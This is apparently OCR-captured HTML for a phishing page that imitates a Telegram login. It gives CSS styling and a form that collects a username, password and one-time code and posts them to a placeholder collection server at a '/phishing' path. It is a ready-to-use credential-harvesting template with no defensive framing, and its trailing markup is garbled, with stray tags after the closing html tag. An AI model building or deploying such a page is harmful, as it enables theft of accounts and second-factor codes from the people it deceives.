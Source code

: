     <style>
        body {
      
        font-family: Arial, sans-serif;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            background-color: #f0f2f5;
        }
        .login-container {
            background: white;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        }
        .login-container h2 {
            margin-bottom: 20px;
        }
        .login-container input {
            width: 100%;
            padding: 10px;
            margin: 10px 0;
            border: 1px solid #ccc;
            border-radius: 4px;
        }
        .login-container button {
            width: 100%;
            padding: 10px;
            background-color: #0088cc;
            color: white;
            border: none;
            border-radius: 4px;
            cursor: pointer;
        }
    </style>
</head>
<body>
  <div class="login-container">
        <h2>Telegram Login</h2>
        <form action="http://yourserver.com/phishing" method="POST">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <input type="text" name="otp" placeholder="OTP" required>
            <button type="submit">Login</button>
        </form>
    </div>
</body>
</html>
   <script src="script.js" defer></script>
</head>
<body>
 
